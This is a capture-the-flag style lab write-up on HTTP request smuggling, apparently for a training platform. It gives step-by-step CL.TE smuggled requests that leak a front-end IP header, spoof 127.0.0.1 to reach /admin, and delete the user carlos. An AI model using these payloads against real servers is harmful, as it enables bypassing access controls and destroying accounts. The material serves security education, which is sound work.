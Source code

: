 # Exploiting HTTP request smuggling to reveal front-end request rewriting

## This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

## There's an admin panel at `/admin`, but it's only accessible to people with the IP address 127.0.0.1. The front-end server adds an HTTP header to incoming requests containing their IP address. It's similar to the `X-Forwarded-For` header but has a different name.

## To solve the lab, smuggle a request to the back-end server that reveals the header that is added by the front-end server. Then smuggle a request to the back-end server that includes the added header, accesses the admin panel, and deletes the user `carlos`

---

---

### **\_\_\_\_**

step 1

set payload

```
Transfer-Encoding: chunked

userid=test
```

![screenshot](images/images_lab8/lab8_test_first_payload.jpg)

### step2

```
Content-Length: 21
Transfer-Encoding: chunked

b
userid=test
0


```

![screenshot](images/images_lab8/lab8_2nd_payload.jpg)

### step3

```
Content-Length: 20
Transfer-Encoding: chunked

b
userid=test
0


```

![screenshot](images/images_lab8/lab8_2nd_payload_with_content_length_less.jpg)

### step4

```
b
userid=test
0

POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 12
Host: 127.0.0.1

userid=test
```

![screenshot](images/images_lab8/lab8_unauthorized.jpg)

![screenshot](images/images_lab8/lab8_content_length_add_one.jpg)

### step5

`Content-Length: 11
`search=test`

![screenshot](images/images_lab8/lab8_search_test.jpg)

### step6

```
Content-Length: 124
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=test
```

![screenshot](images/images_lab8/lab8_post_request_search.jpg)

### step7

```
Content-Length: 154
Transfer-Encoding: chunked

0

POST /admin HTTP/1.1
X-AOSTLB-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
connection: closed

search=test

```

![screenshot](images/images_lab8/lab8_administrator.jpg)

### step8

```
Content-Length: 177
Transfer-Encoding: chunked

0

POST /admin/delete?username=carlos HTTP/1.1
X-AOSTLB-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
connection: closed

search=test

```

![screenshot](images/images_lab8/lab8_delete_carlos_account.jpg)

### step9

![screenshot](images/images_lab8/lab8_lab_solved.jpg)
